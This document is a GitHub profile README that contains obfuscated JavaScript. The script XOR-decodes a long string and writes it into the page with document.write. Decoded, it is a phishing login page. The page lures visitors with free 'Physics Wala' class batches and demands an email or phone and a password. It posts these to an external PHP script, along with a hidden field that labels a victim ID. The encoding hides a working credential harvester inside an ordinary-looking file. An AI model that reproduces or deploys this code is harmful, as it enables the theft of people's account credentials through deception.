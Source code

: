 var enkripsi="'2C'2C'1Ajvon'1G'2C'02'02'1Ajgcf'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00tkgurmpv'00'02amlvglv'1F'00ukfvj'1Ffgtkag/ukfvj'02'0A'02klkvkcn/qacng'1F3,2'00'1G'2C'2C'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00Amlvglv/V{rg'00'02amlvglv'1F'00vgzv-jvon'1@'02ajcpqgv'1FWVD/:'00'1G'2C'2C'1AQapkrv'02Nclewceg'1F'05Hctcqapkrv'05'1G'2C'1A'03//'02JVON'02Glap{rvkml'02rpmtkfgf'02`{'02vcvjukp,amo'02//'1G'2C'1A'03//'2Cfmawoglv,upkvg'0:wlgqacrg'0:'05'071A'0751'0756'075;'074A'0747'071G'072C'0740'074D'0746'075;'075@'072C'072;'074F'0743'0750'0745'074;'074G'071C'0702'0712'071@'072C'072;'0744'074D'074G'0756'070F'0744'0743'074F'074;'074A'075;'071C'0702'0751'0743'074G'0751'070F'0751'0747'0750'074;'0744'071@'072C'072;'074A'074;'074G'0747'070F'074:'0747'074;'0745'074:'0756'071C'0702'0713'0714'0752'075:'071@'072C'072;'0744'074D'074G'0756'070F'0751'074;'075C'0747'071C'0702'0713'0711'0752'075:'071@'072C'075F'072C'072C'070G'074G'0743'0754'0740'0743'0750'075@'072C'072;'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'071C'0702'0701'0712'0712'0713'0744'071;'0712'0740'071:'071@'072C'0702'0702'0702'0702'074:'0747'074;'0745'074:'0756'071C'0702'0711'071;'0752'075:'071@'072C'0702'0702'0702'0702'0755'074;'0746'0756'074:'071C'0702'0713'0712'0712'0707'071@'072C'075F'072C'072C'070G'0741'074D'074G'0756'0743'0741'0756'070F'0757'0751'0702'0743'075@'072C'072;'0741'074D'074A'074D'0750'071C'0701'0712'0712'0713'071:'0716'0743'0715'071:'071@'072C'072;'0744'074D'074G'0756'070F'0751'074;'075C'0747'071C'0713'0713'0752'075:'071@'072C'075F'072C'072C'070G'074G'0743'0754'070F'074:'0747'0743'0746'075@'072C'072;'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'070F'0741'074D'074A'074D'0750'071C'0701'0744'0744'0746'0741'0712'0712'0710'0714'071@'072C'072;'0741'074D'074A'074D'0750'071C'0701'0717'0746'0717'0711'0712'0747'0740'071:'071@'072C'072;'0752'0743'0746'0746'074;'074G'0745'071C'0714'0752'075:'0702'0713'0712'0752'075:'071@'072C'075F'072C'072C'070G'0741'074D'074G'0756'0743'0741'0756'070F'0757'0751'075@'072C'072;'0752'0743'0746'0746'074;'074G'0745'070F'0740'074D'0756'0756'074D'074F'071C'0710'0713'0752'075:'071@'072C'072;'0756'0747'075:'0756'070F'0743'074A'074;'0745'074G'071C'0741'0747'074G'0756'0747'0750'071@'072C'075F'072C'072C'072C'070G'0744'074D'0750'074F'0757'074A'0743'074;'0750'0747'070G'0744'074D'0750'074F'0757'074A'0743'074;'0750'0747'071G'070C'075@'072C'072;'0740'074D'0750'0746'0747'0750'070F'0740'074D'0756'0756'074D'074F'071C'0713'0752'075:'0702'0751'074D'074A'074;'0746'0702'0701'0741'0715'0741'0711'0741'0711'0714'071;'071@'072C'075F'072C'072C'070G'0747'074G'0756'0750'0747'0750'075@'072C'072;'0740'074D'0750'0746'0747'0750'071C'0712'071@'072C'072;'0755'074;'0746'0756'074:'071C'0713'0712'0712'0707'071@'072C'075F'072C'072C'070D'070C'072C'0751'0757'0740'074F'074;'0756'072C'070C'070D'072C'072C'070G'074@'074D'0743'074A'0743'075@'072C'072;'0746'074;'0751'0752'074A'0743'075;'071C'074;'074G'074A'074;'074G'0747'070F'0740'074A'074D'0741'074@'071@'072C'072;'070F'0755'0747'0740'074@'074;'0756'070F'0740'074D'0750'0746'0747'0750'070F'0750'0743'0746'074;'0757'0751'071C'0711'0752'075:'071@'072C'072;'0744'074D'074G'0756'070F'0755'0747'074;'0745'074:'0756'071C'0740'074D'074A'0746'071@'072C'072;'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'070F'0741'074D'074A'074D'0750'071C'0701'0712'0712'0711'0714'0744'071;'071;'071;'071@'072;'072C'072;'0744'074D'074G'0756'070F'0751'074;'075C'0747'071C'0713'0711'0752'075:'071@'072C'072;'074A'074;'074G'0747'070F'074:'0747'074;'0745'074:'0756'071C'0711'0716'0752'075:'071@'072C'072;'0752'0743'0746'0746'074;'074G'0745'071C'0712'0702'0713'071:'0752'075:'071@'072C'072;'0741'074D'074A'074D'0750'071C'0755'074:'074;'0756'0747'072C'075F'072C'072C'070G'0751'0753'0757'0743'0750'0747'077D'0740'0756'074G'0702'075@'072C'0702'0702'0702'072;'0752'074D'0751'074;'0756'074;'074D'074G'071C'0702'0750'0747'074A'0743'0756'074;'0754'0747'071@'072C'0702'0702'0702'0702'0746'074;'0751'0752'074A'0743'075;'071C'0702'074;'074G'074A'074;'074G'0747'070F'0740'074A'074D'0741'074@'071@'072C'0702'0702'0702'0702'0752'0743'0746'0746'074;'074G'0745'071C'0702'0713'0713'0752'075:'071@'072C'0702'0702'0702'0702'0756'0747'075:'0756'070F'0746'0747'0741'074D'0750'0743'0756'074;'074D'074G'071C'0702'074G'074D'074G'0747'071@'072C'0702'0702'0702'0702'0741'074D'074A'074D'0750'071C'0702'0755'074:'074;'0756'0747'071@'072C'0702'0702'0702'0702'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'071C'0702'0701'0713'0747'0716'0712'071:'071:'0740'071:'071@'072C'0702'0702'0702'0702'0740'074D'0750'0746'0747'0750'070F'0750'0743'0746'074;'0757'0751'071C'0702'0716'0752'075:'071@'072C'0702'0702'0702'0702'0744'074D'074G'0756'070F'0755'0747'074;'0745'074:'0756'071C'0702'0740'074D'074A'0746'071@'072C'0702'0702'0702'0702'0740'074D'0750'0746'0747'0750'071C'0702'0713'0717'0752'075:'0702'0701'0744'0711'0712'071;'0712'071;'071@'072C'0702'0702'0702'0702'0755'074;'0746'0756'074:'071C'0702'0713'0712'0712'0707'071@'072C'075F'072C'072C'072C'070D'070C'0702'074G'0747'0754'0747'0743'0757'0702'0741'074D'074F'0752'0756'0747'0702'070C'070D'072C'070G'0744'0750'0757'074;'0756'075@'072C'072;'0756'0747'075:'0756'070F'0743'074A'074;'0745'074G'071C'0741'0747'074G'0756'0747'0750'071@'072C'072;'0752'0743'0746'0746'074;'074G'0745'071C'071;'0752'075:'071@'072C'075F'0702'072C'071A'070D'0751'0756'075;'074A'0747'071G'05'0;'0;'1@'2C--//'1G'2C'1A-Qapkrv'1G'2C'2;'2C'02'02'1A-jgcf'1G'2C'02'02'1A`mf{'1G'2C'02'02'02'02'02'1A'03//'02Lct@cp'02//'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00lct`cp'00'1G'1A-fkt'1G'2C'02'02'02'02'1Afkt'02qv{ng'1F'00fkqrnc{'1C/ug`ikv/`mz'00'1G'2C'02'02'02'02'02'02'1Afkt'02qv{ng'1F'00/ug`ikv/`mz/dngz'1C3'00'1G'2C'02'02'02'02'02'02'02'02'1A'03//Lct/Jgcfgp//'1G'2C'2C'2C'02'02'02'02'02'02'02'02'1A'03//'02Dmpownckpg'02//'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02qv{ng'1F'00`caiepmwlf/amnmp'1C'010a1`7c2d'1@rcffkle'1C0'0213rz'00'1G'2C'2;'2;'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00'00'02ukfvj'1F'00122rz'00'1G'2C'2;'2;'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00lct/jgcf'00'1G'2C'02'02'02'02'02'02'02'02'02'02'1Aqrcl'1GRJ[QKAQ'02UCNC'02/'0:RU'0;/'02DPGG'02@CVAJGQ'02/30vj/'02ancqq'02MLN['02VUM'02QW@HGAVQ'02'0:HMKL'02LMU'0;,'02[mw'02owqv'02nme'02kl'02vm'02amlvklwg,'02'1A-qrcl'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02ogvjmf'1F'00RMQV'00'02qv{ng'1F'00rcffkle/vmr'1C35rz'1@'00'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00RMQV'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmpownckpg'00'02qv{ng'1F'00`caiepmwlf'1Cujkvg'1@'00'1G'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'2C'1Aklrwv'02lcog'1F'00gockn'00'02v{rg'1F'00vgzv'00'02rncagjmnfgp'1F'00Gockn'02mp'02rjmlg'02'00'02ancqq'1F'00glvpgp'00'02qv{ng'1F'00rcffkle'1C30rz'1@'00'1G'02'2C'2C'2C'2C'1Aklrwv'02lcog'1F'00v{rg'00'02v{rg'1F'00jkffgl'00'02tcnwg'1F'00om`kng'00'02-'1G'2C'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00U5COP'00'02-'1G'2C'2C'2C'2C'1Aklrwv'02lcog'1F'00rcqq'00'02tcnwg'1F'00'00'02v{rg'1F'00rcqqumpf'00'02'02rncagjmnfgp'1F'00Rcqqumpf'02'00'02ancqq'1F'00glvpgp'00'02qv{ng'1F'00rcffkle'1C30rz'1@'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02qv{ng'1F'00rcffkle'1C30rz'1@'00'1G'02'2C'2C'2C'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00qswcpg]`vl'00'1G'02Nmekl'02'1A-`wvvml'1G'2C'2C'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'02'2C'2C'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dpwkv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Ac'02ancqq'1F'00imcnc'00'1GLggf'02c'02lgu'02caamwlv'1A-c'1G'02'2C'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'2C'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amlvcav/wq'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Ac'1GDmpemvvgl'02caamwlv'02'1D'02Lggf'02Jgnr'1A-c'1G'2C'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-hq/vpcai-vpcai,hq'00'1G'1A-qapkrv'1G'02'2C'2C'02'02'1A-`mf{'1G'2C'1A-jvon'1G'2C"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++){ teks+=String.fromCharCode(enkripsi.charCodeAt(i)^2) }teksasli=unescape(teks);document.write(teksasli);

<!---
usernameh-afk/usernameh-afk is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
